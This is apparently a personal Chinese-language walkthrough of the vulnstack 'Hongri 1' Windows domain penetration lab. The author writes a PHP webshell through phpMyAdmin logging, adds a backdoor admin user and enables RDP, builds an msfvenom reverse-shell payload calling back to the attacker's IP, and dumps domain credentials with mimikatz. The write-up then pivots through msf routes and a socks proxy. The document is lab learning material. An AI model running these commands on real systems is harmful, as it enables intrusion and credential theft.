纯纯乱打...
wp到时候打通了再复现一遍 现在先乱扫乱打

nmap sn扫网段扫到的只有server的

```
┌──(kali2021㉿kali2021)-[~/桌面]
└─$ nmap -sn 192.168.52.0/24       
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-22 07:43 CST
Nmap scan report for 192.168.52.1
Host is up (0.0027s latency).
Nmap scan report for 192.168.52.138
Host is up (0.0019s latency).
Nmap scan report for 192.168.52.255
Host is up (0.0036s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.55 seconds
```

感觉这是一个细节点
我的理解是server是域控(应该是吧) 对其下的两台机子管了外部网络的访问
所以nmap过不去DC 扫不到内网


DC ip: 192.168.52.138

然后对server扫 信息收集
```
┌──(kali2021㉿kali2021)-[~/桌面]
└─$ nmap -F -sC -sV  192.168.52.138
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-22 07:20 CST
Nmap scan report for 192.168.52.138
Host is up (0.0016s latency).
Not shown: 93 filtered ports
PORT    STATE SERVICE    VERSION
25/tcp  open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 25
53/tcp  open  tcpwrapped
80/tcp  open  tcpwrapped
|_http-server-header: Microsoft-IIS/7.5
110/tcp open  tcpwrapped
135/tcp open  tcpwrapped
139/tcp open  tcpwrapped
445/tcp open  tcpwrapped

Host script results:
|_clock-skew: -8h00m01s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-21T15:20:45
|_  start_date: 2024-04-21T10:45:44

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.97 seconds

```


直接访问DC的ip能看到网页(80端口)



梳理一下整个拓扑
```
- 攻击机 kali ip: 192.168.136.146
- win7:
   - 外网ip: 貌似出了点问题...
   - 内网ip: 192.168.52.143
- 域控 WindwosServer2008R2 ip: 192.168.52.138
- 域内主机Win2k3 metasploitable ip : 192.168.52.141
```

发现环境还是没配的太对
win7的外网ip没跟kali端同步...

好像要启动web服务才行...


kali再扫就能扫到了


整个网络拓扑:
```
- 攻击机 kali ip: 192.168.136.146
- win7:
   - 外网ip: 192.168.52.128
   - 内网ip: 192.168.52.143
- 域控 WindwosServer2008R2 ip: 192.168.52.138
- 域内主机Win2k3 metasploitable ip : 192.168.52.141
```


扫win7外网ip
```
┌──(kali2021㉿kali2021)-[~/桌面]
└─$ nmap -sC -sV -A 192.168.52.128
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-22 08:09 CST
Nmap scan report for 192.168.52.128
Host is up (0.0020s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE    VERSION
25/tcp   open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  tcpwrapped
110/tcp  open  tcpwrapped
135/tcp  open  tcpwrapped
3306/tcp open  tcpwrapped

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.04 seconds

```





php探针 最开始学web的信息泄露就接触过 但一直没有具体了解学习过 刚好借此机会康康

其实也没什么特殊的点 个人理解就是一个信息泄露罢了
收集下有用的信息

```
管理员邮箱: admin@phpStudy.net
绝对路径: C:/phpStudy/WWW
服务器信息: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
php版本: 5.4.45


```

而且泄露了`/phpinfo.php`
注意到传参形式: `/l.php?act=phpinfo`
可以RCE?
但是Windows环境的...

搜了搜貌似phpstudy有后门?
但是是2016年植入的 然而这个phpstudy是2014 ...

rm... 看了半天原来是需要 `/phpMyAdmin/` 弱口令登录
...
搜索到phpmyadmin默认用户是root 默认空密码 但这里要有密码 猜个root就登进去了

然后要怎么getshell呢 要先把web打穿进内网啊...
记得前面的allow_url_fopen开了的 

自己找找不怎么到 因为对于后台CMS不熟 搜索:[phpmyadmin后台getshell](https://www.cnblogs.com/0nc3/p/12071314.html)

核心就是利用SQL查询相应条件是否满足并写入webshell

可以直接按照文章上的 二.开启全局日志getshell来打
`set global general_log = on;`
`set global general_log_file = 'C:/phpStudy/www/shell.php'`
然后写入webshell
`select '<?php eval($_POST[1]);?>'`

然后AntSword连接
`http://192.168.52.128/shell.php` 1



Windows的shell活久见🤣 而且一进去就是管理员权限

可以看到我们通过sql的日志记录写入的webshell


接下来就是Windows内网的信息收集了
虽说真不大会 不知道哪些对后面进一步内网渗透有用...


ip信息收集:
```
ipconfig /all
```

能得到当前Domain的名字 能扫到另一个ip: 192.168.52.143
即web服务的Windows机的内网ip

可以传`wmic_info.bat`进行自动信息收集

而且攻陷的win7机子上有nmap (没有也可以自己上传或者wget)
也可以传fscan.exe扫内网段

但很离谱的是 AntSword的终端用nmap扫没回显???
逆天 fscan也没回显 尝试python拿交互终端也报错...

跟着wp看看信息收集:
```
 ipconfig /all   # 查看本机ip，所在域
 route print     # 打印路由信息
 net view        # 查看局域网内其他主机名
 arp -a          # 查看arp缓存
 net start       # 查看开启了哪些服务
 net share       # 查看开启了哪些共享
 net share ipc$  # 开启ipc共享
 net share c$    # 开启c盘共享
 net use \\192.168.xx.xx\ipc$ "" /user:""    # 与192.168.xx.xx建立空连接
 net use \\192.168.xx.xx\c$ "密码" /user:"用户名"    # 建立c盘共享
 dir \\192.168.xx.xx\c$\user    # 查看192.168.xx.xx c盘user目录下的文件
 
 net config Workstation    # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
 net user                 # 查看本机用户列表
 net user /domain         # 查看域用户
 net localgroup administrators    # 查看本地管理员组（通常会有域用户）
 net view /domain         # 查看有几个域
 net user 用户名 /domain   # 获取指定域用户的信息
 net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
 net group 组名 /domain    # 查看域中某工作组
 net group "domain admins" /domain  # 查看域管理员的名字
 net group "domain computers" /domain  # 查看域中的其他主机名
 net group "doamin controllers" /domain  # 查看域控制器（可能有多台）
```


woc 学到了
arp -a 还能带出一个ip: `192.168.52.138` (DC)

` net group "domain admins" /domain` -> `OWA$`


然后也能得到域名: `god.org`

所以DC: `owa.god.org`




然后后面的操作就完全不会了 

什么添加自定义user到管理员组 然后尝试远程登陆(3389端口)

不行就msf打...


好难啊 Windows内网感觉比Linux复杂的多 🤣 慢慢来吧~

rm发现fscan扫不起因为 ...

难！


先在win7本地创建我们自己的用户(密码要大小写+数字)
然后将这个用户加入管理员组

```
net user uuuqqq Aa12345 /add 
net localgroup administrators uuuqqq /add
```



尝试打开3389端口远程连接
`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`

发现连不上应该是有firewall


那就用msf上马
msf生成exe木马:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.128 LPORT=2333 -f exe > shell.exe
```

然后msfconsole监听
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 2333
set lhost 192.168.52.128
exploit -j
```

要把杀软关掉...
蚁剑上传shell.exe到网站目录下 win7运行 msf上线

但逆天的是为什么msf的反弹shell打不通...
抽象啊》。。 nmap能扫到 但ping不通...


自己找个win7试试msf的反弹shell
靶机: win7 192.168.136.147
攻击机: kali2021 192.168.136.146

模拟钓鱼网站诱导下载恶意软件
kali生成好shell.exe后python起一个web服务 靶机访问下载

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.136.147  LPORT=2333 -f exe > shell.exe`

把360关掉(md 得研究免杀了屮)

然后msf上线打
emmm 还是报错 `Handler failed to bind to 192.168.136.147:2333:`

那就换个port再打一遍看看

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.136.147  LPORT=6789 -f exe > shell.exe`

o fxck md这个是lhost... 应该是填kali的ip罢 c...


getshell! 那么vulnstack应该也是可以打的c.
然后就是看显示的哪个session就 输入`sessions x`


再发shell即可
而且发现这个shell运行后就在后台一直保持tcp通信 还不止开一个 ... 也就是有许多个端口都用来保持连接...
但是没加免杀 啥都能报警... (立个flag 把红日1打完后研究一下这个shell 233)


笑死 继续打vulnstack~

msfvenom:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.136.146  LPORT=6790 -f exe > shell.exe`

然后蚁剑上传 msf上线监听
md 我直接把win7两个网卡都改为NAT了 c..

getshell!



但我们不需要这个p权限 我们直接在 强大的metrepeter操作
直接 `getsystem`提权


然后关掉防火墙 开启远程桌面

`run post/windows/manage/enable_rdp`



就可以用kali的 `rdesktop`远程桌面连接了

好吧 刚刚换了个NAT ip变了 按这张来




帅!

接下来先不能登录 就算我们前面加了自己的用户 但是这个登录是需要远程同意的 这不就暴露了吗...

然后上传 `mimikatz.exe`抓取密码

[mimikatz](https://blog.csdn.net/weixin_51741741/article/details/128150213)

上传:


[mimikatz使用](https://zhuanlan.zhihu.com/p/399799909) (找个时候系统练一练)

接下来 meterpreter进入shell 在win7上运行mimikatz.exe


权限提升: `privilege::debug`
然后获取密码: `sekurlsa::logonPasswords`






至此已经获得了**域管理员**的明文密码 接下来继续对域内的其他主机进行渗透

探测内网存活主机
!!!
`for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.52.%I | findstr "TTL=" `

Windows没有nmap 用cmd 的for循环结合ping来探测
但探测是真的挺慢的

一番探测(开始没探出来是因为win2k3 lock了...)后找到 192.168.52.138 192.168.52.141这台主机


我们配置跳板用 MSF添加路由的方式渗透内网
[MSF路由转发内网渗透](https://zhuanlan.zhihu.com/p/101692887)

获取被攻击目标内网地址网段:
meter...:
`run autoroute -s 192.168.52.0/24`




autoroute添加完路由后用msf自带的sock模块代理
```
use auxiliary/server/socks_proxy
set srvport 1080
run

```



然后 `route print`就能打印win7里的路由

接下来配置kali socks代理
`vi /etc/proxychains.conf`



emmm 代理不了啊  ....
应该是网络还是没配好...
难绷。。。 择日再战...


再回顾一下网络拓扑

kali: 192.168.136.146
win7: 外网: 192.168.52.128
      内网: 192.168.52.143

win2008(DC): 192.168.52.138
win2k3: 192.168.52.141

今天再看发现是win7是ping不通kali的...
逆天... 这靶场网络环境真难绷...

嘛 自己开个win7练习一下proxychains代理罢

屮 真的离谱 域内主机win2k3我windows端的wsl都能ping通... 就win7那台死活ping不通...

我把所有靶机的网卡都配成NAT了
重新记录一下ip

kali: 192.168.136.146
win7: 外网: 192.168.136.161
      内网: 192.168.52.143

win2008(DC): 192.168.52.138
win2k3: 192.168.52.141

逆天... 还是打不通 c..

嘛 只能本地实践练习了 屮
练习一下kali socks的配置


添加完路由后background后台运行shell
然后kali配代理
```
use auxiliary/server/socks_proxy
set version 4a
set srvhost 192.168.136.146
set srvport 1080
exploit
```



此时再看 `/etc/proxychains4.conf`就有配置了


对应修改即可
把 `dynamic chains`注释去掉




大致测试一下(没搭内网环境) 就是这种效果


但红日的靶场网络真难绷... 屮
虽说打不通 但有一句话很重要


我们在msf上
         设置路由是为了让msf可以通信到内网其他主机
         设置代理的目的是为了让攻击机上的其他工具可以通信到内网的其他主机

我的理解是 借助msf进行了一个转发 msf借助已攻陷的win7来转发攻击机kali的流量